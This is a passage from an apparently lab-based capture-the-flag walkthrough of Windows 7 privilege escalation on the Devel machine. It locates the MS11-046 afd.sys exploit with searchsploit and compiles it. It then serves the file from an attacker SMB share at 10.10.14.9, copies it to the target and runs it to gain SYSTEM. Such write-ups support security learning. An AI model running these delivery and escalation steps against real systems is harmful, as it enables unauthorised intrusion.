 Searching on Google for Win7 build 7600 exploits, I find this one:

![Devel_PrivEsc](/images/htb/devel_priv_esc.png)

I can also find the exploit on `searchsploit`:

{{< highlight html >}}
searchsploit windows| grep 40564
Microsoft Windows (x86) - 'afd.sys' Local Pri | windows_x86/local/40564.c
{{< /highlight >}}
Where:
- `40564` is the **EDB-ID** of the exploit

Download it:

{{< highlight html >}}
searchsploit -m windows_x86/local/40564.c
  Exploit: Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)
      URL: https://www.exploit-db.com/exploits/40564
     Path: /usr/share/exploitdb/exploits/windows_x86/local/40564.c
File Type: C source, ASCII text, with CRLF line terminators
{{< /highlight >}}

The instructions for compiling the exploit are in the file:

>Exploit compiling (Kali GNU/Linux Rolling 64-bit):

>i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32

After running the command (writing 40564.c instead of MS11-046.c), the exploit is compiled and ready to be uploaded on the target machine:

{{< highlight html >}}
sudo python3 /opt/impacket/examples/smbserver.py share .
{{< /highlight >}}

Where:
- `share` is the name I want to give to the share
- `.` is the share path

**Note**: I am setting up a smb server in order to deliver the payload, as `wget` and `curl` are not installed on the target machine. Another way could be to use a `Powershell download cradle`.

On target I place myself under `C:\Users\Public`, as here I have **write permissions** and copy the file:

{{< highlight html >}}
C:\Users\Public>copy \\10.10.14.9\share\MS11-046.exe
copy \\10.10.14.9\share\MS11-046.exe
{{< /highlight >}}

At this point I have the exploit on the target machine. I just need to launch it and gain **SYSTEM** privileges!

{{< highlight html >}}
C:\Users\Public>.\MS11-046.exe
.\MS11-046.exe

